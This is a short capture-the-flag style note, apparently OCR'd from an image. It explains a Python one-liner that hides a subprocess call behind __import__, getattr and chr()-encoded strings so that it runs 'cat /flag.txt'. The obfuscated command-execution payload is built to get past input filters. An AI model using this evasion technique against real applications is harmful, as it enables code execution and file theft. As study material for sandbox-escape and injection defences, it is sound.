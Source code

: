 ### Python One-Liner Execution via `subprocess.check_output()`

#### Working Example:

python

CopyEdit

`getattr(__import__('subprocess'), 'check_output')([chr(99)+chr(97)+chr(116), chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])`

#### Breakdown:

- `__import__('subprocess')`: Dynamically imports the `subprocess` module.
    
- `getattr(..., 'check_output')`: Accesses the `check_output` function.
    
- `chr()` functions build the command `['cat', '/flag.txt']` character-by-character.
    
- This one-liner is equivalent to:
    
    python
    
    CopyEdit
    
    `subprocess.check_output(['cat', '/flag.txt'])`
    

#### Common Mistake:

Using incorrect quotes like `‘` or `’` (fancy Unicode quotes) will cause a syntax error. Always use standard single (`'`) or double (`"`) quotes.